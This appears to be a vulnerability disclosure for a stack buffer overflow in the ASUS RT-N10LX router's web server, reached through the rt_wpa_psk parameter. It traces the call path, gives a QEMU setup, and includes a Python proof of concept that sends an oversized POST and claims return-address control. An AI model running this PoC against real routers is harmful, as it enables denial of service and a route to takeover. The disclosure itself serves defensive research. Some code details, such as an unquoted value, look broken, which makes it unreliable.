







## buffer overflow in rt_wpa_psk of update_variables


**Affected Product**: ASUS RT-N10LX

**Affected Firmware Versions**: v.2.0.0.39

**Official Firmware Resources** :[ASUS RT-N10LX firmware v.2.0.0.39 v.2.0.0.39](https://cn.driverscollection.com/_5246336426127ef295a27bea27a/下载-ASUS-RT-N10LX-firmware-v.2.0.0.39-。。。的驱动-Windows-10-(32-64-bit)-8.1-(32-64-bit)-8-(32-64-bit)-7-(32-64-bit)-Vista-(32-64-bit)-XP-(32-64-bit)-Server-2003-(32-64-bit)-Mac-OS-Server-2000-Others-免费)

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 

------

### **Vulnerability Details**

#### **Description**

A stack-based buffer overflow exists in the HTTPD service through the `update_variables` endpoint. The vulnerability occurs when processing POST requests containing the `rt_wpa_psk` parameter. Specifically:

1. The `sub_412CCC` function handles requests to `get_wan_status.asp`.
2. User-controlled `update_variables` input is copied to buffer `v21`using `sprintf` without proper bounds checking.
3. The `v21` buffer is only **64  bytes** in size.

This vulnerability requires authentication to exploit, making it a post-authentication vulnerability.







 

### exploitation process

**1、** After initialization in the main function, it enters the `sub_4052BC` function to handle HTTP requests:




**2、**Traverses the routing table - all entries will execute the `do_ej` function to process responses:







**3、**`do_ej` calls `sub_40E99C` → `sub_40E758` → traverses `ej_handlers`:



4、When matching the `update_variables` function, it enters `sub_412CCC` and triggers the vulnerability:




#### **QEMU Emulation Setup**

`sudo chroot . ./qemu-mips-static   -g 1234  ./bin/httpd`


------

### **Proof of Concept (PoC)**

```
import requests
from requests.auth import HTTPBasicAuth

router_ip = "192.168.107.135"
url = f"http://{router_ip}/get_wan_status.asp/update_variables"
username = "1"
password = "1"
payload = 'A' * 2048

data = {
    
    "rt_wpa_psk": payload,
    "action_mode":QIS_Apply,
    "current_page":"/qis/QIS_wireless.htm"
    
}

headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
}

try:
    response = requests.post(
        url,
        data=data,
        headers=headers,
        auth=HTTPBasicAuth(username, password),

    )

    print(f"HTTP Status: {response.status_code}")
    print("Response Content:")
    print(response.text)

    if "Internal Server Error" in response.text:
        print("Server Error Detected")
    elif response.status_code == 500:
        print("Internal Server Error (500)")
    elif response.status_code == 0:
        print("Connection Reset")

except requests.exceptions.ConnectionError:
    print("Connection Failed - Potential Service Crash")
except requests.exceptions.RequestException as e:
    print(f"Request Error: {str(e)}")
except Exception as e:
    print(f"Unexpected Error: {str(e)}")
```


### Exploitation Results


The PoC demonstrates successful overflow of the `v21` buffer on the stack. , the overflow overwrites the return address, granting control of the PC register. This enables arbitrary code execution by crafting a ROP chain or shellcode payload.

